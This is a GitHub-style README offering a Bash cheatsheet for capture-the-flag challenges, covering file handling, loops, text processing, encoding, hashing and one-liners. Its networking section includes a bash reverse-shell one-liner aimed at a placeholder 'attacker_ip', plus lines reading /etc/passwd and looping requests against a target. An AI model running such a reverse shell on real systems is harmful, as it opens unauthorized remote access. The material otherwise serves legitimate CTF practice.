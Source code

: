 # Bash Cheatsheet for CTFs

A comprehensive README of Bash commands, constructs, and one-liners tailored for Capture The Flag (CTF) challenges. Includes scripting basics, text/file processing, network tricks, and automation.

---

## 🎯 Purpose

This cheatsheet is designed to help quickly write and run Bash scripts during CTFs, covering file parsing, automation, loops, and common one-liners for exploiting, extracting, and analyzing data.

---

## 🔧 Basics

* Print text:

  ```bash
  echo "Hello CTF"
  ```
* Current directory:

  ```bash
  pwd
  ```
* List files:

  ```bash
  ls -la
  ```
* Run script:

  ```bash
  chmod +x script.sh && ./script.sh
  ```

---

## 📂 File Handling

* Create file:

  ```bash
  touch file.txt
  ```
* Read file:

  ```bash
  cat file.txt
  less file.txt
  head -n 10 file.txt
  tail -f file.txt
  ```
* Count lines/words:

  ```bash
  wc -l file.txt
  wc -w file.txt
  ```
* Search inside file:

  ```bash
  grep "flag" file.txt
  grep -r "flag" .
  ```

---

## 🔁 Loops

* Loop over files:

  ```bash
  for file in *; do
      echo "$file"
  done
  ```
* Loop over lines in file:

  ```bash
  while IFS= read -r line; do
      echo "$line"
  done < file.txt
  ```
* Loop with numbers:

  ```bash
  for i in {1..10}; do echo $i; done
  ```

---

## 🔎 Text Processing

* Cut fields:

  ```bash
  cut -d":" -f1 /etc/passwd
  ```
* Sort & unique:

  ```bash
  sort file.txt | uniq -c
  ```
* Replace text:

  ```bash
  sed 's/old/new/g' file.txt
  ```
* Extract with regex:

  ```bash
  grep -oE "flag\{.*\}" file.txt
  ```
* Hex dump:

  ```bash
  xxd file
  ```

---

## 📡 Networking & Exploitation

* Download file:

  ```bash
  wget http://target/file
  curl -O http://target/file
  ```
* Send request:

  ```bash
  curl -X POST -d "param=value" http://target
  ```
* Start simple web server:

  ```bash
  python3 -m http.server 8080
  ```
* Reverse shell (Bash):

  ```bash
  bash -i >& /dev/tcp/attacker_ip/4444 0>&1
  ```

---

## 🔐 Encoding & Decoding

* Base64 encode/decode:

  ```bash
  echo -n "flag" | base64
  echo "ZmxhZw==" | base64 -d
  ```
* Hex to ASCII:

  ```bash
  echo 666c6167 | xxd -r -p
  ```
* ROT13:

  ```bash
  echo "uryyb" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
  ```
* Binary to text:

  ```bash
  echo 01100110 | perl -lpe '$_=pack("B*",$_)'
  ```

---

## 🧮 Math & Hashes

* Simple arithmetic:

  ```bash
  echo $((5+3))
  ```
* MD5/SHA1/SHA256:

  ```bash
  echo -n "flag" | md5sum
  echo -n "flag" | sha1sum
  echo -n "flag" | sha256sum
  ```

---

## 🧰 One-Liners for CTFs

* Extract flag pattern from logs:

  ```bash
  grep -roE "flag\{[A-Za-z0-9_]+\}" .
  ```
* Find strings in binary:

  ```bash
  strings binary | grep flag
  ```
* Brute-force numbers:

  ```bash
  for i in {1..1000}; do echo $i; done
  ```
* Loop curl requests:

  ```bash
  for i in {1..10}; do curl http://target/page?id=$i; done
  ```

---

## 📝 Tips

* Always quote variables: `"$var"`
* Use `set -x` to debug scripts
* Redirect output: `command > out.txt 2>&1`
* Combine tools (`grep`, `cut`, `awk`, `sed`) for fast parsing
* Remember `man <command>` and `--help`

---

*This README is optimized for CTF Bash usage — expand with specific payloads, automation tricks, or category-specific scripts as needed.*
